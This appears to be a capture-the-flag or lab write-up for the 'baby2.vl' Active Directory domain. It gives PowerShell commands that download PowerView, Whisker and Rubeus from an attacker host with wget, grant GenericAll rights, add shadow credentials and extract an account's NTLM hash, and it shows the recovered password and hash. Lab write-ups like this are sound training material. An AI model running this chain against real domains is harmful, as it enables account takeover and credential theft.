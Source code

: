 There is a Path:
1. Abuse `WriteDacl` to get the `GPOAdmin` user
2. Use `GPOAdmin` to create a new Domain Policy and Become Root

### Abuse `WriteDacl`
The Hacker Recipes contain a nice [Article for DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl/)
TO abuse WriteDacl, we can:
1. Use `PowerView` to grant ourselves `GenericAll` rights to `GPOAdmin`
2. Use `Whisker` to get ourselves Shadow Credentials of `GPOAdmin` (less intrusive than changing Password)
3. Use `Rubeus` to get the `NTLM` Hash

* `PowerView` can be found in [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* `Whisker.exe` and `Rubeus.exe` can both be found in [SharpCollection](https://github.com/Flangvik/SharpCollection)

Note that I used the resources from `/opt/resources` in Exegol so no guarantee that the
linked binaries work.

#### A - Get GenericAll Rights
```powershell
> cd $env:TEMP
> wget http://10.8.3.311/PowerView.ps1 -o PowerView.ps1
> Import-Module ./PowerView.ps1
> Add-DomainObjectAcl -PrincipalIdentity amelia.griffiths -TargetIdentity gpoadm -Rights All
```

#### B - Add shadow Credentials
So I'm not exactly sure how it works so I direct you to a [Post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) from *Spectreops*
For our purposes it's a less intrusive way to take over an account without changing the password.

To do that we just execute Whisker
```powershell
> wget http://10.8.3.211/Whisker.exe -o Whisker.exe
> ./Whisker.exe add /target:gpoadm /path:cert.pfx
[...]
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:gpoadm /certificate:cert.pfx /password:"RHmhMJhiFIcuGv4O" /domain:baby2.vl /dc:dc.baby2.vl /getcredentials /show
```

And then use the recommended `Rubeus` command to get the NTLM-Hash
```powershell
> wget http://10.8.3.211/Rubeus.exe -o Rubeus.exe
> Rubeus.exe asktgt /user:gpoadm /certificate:cert.pfx /password:"RHmhMJhiFIcuGv4O" /domain:baby2.vl /dc:dc.baby2.vl /getcredentials /show
[...]
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 51B4E7AEE2FBDD4E36F2381115C8FE7A
```
